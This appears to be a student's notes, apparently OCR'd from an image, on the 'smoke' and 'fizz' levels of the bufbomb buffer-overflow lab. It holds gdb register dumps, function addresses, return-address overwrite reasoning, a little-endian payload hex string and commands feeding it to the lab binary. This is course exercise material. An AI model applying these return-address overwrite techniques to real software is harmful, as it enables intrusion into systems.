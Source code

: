 ## call smoke

(gdb) info registers 
eax            0x3                 3
ecx            0xf7f90e1c          -134672868
edx            0x0                 0
ebx            0x0                 0
esp            0xffffbed0          0xffffbed0
ebp            0xffffbee8          0xffffbee8
esi            0x4                 4
edi            0x804b5c0           134526400
eip            0x8048fe6           0x8048fe6 <getbuf+6>
eflags         0x282               [ SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99

(gdb) p smoke
$1 = {<text variable, no debug info>} 0x8048e20 <smoke>

(gdb) x *(0xffffbee8)
0xffffbf08

(%ebp) = 0xffffbf08
(%ebp+0x4) should be = &smoke

We should consider endian, the overflow hex should be

08bfffff208e0408

./sendstring < smoke.txt > smoke-raw.txt

## call fizz

Team: SA21011038
Cookie: 0x41a21e87

fizz = 08048dc0

 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx

./sendstring < fizz.txt > fizz-raw.txt
./bufbomb -t SA21011038 < fizz-raw.txt 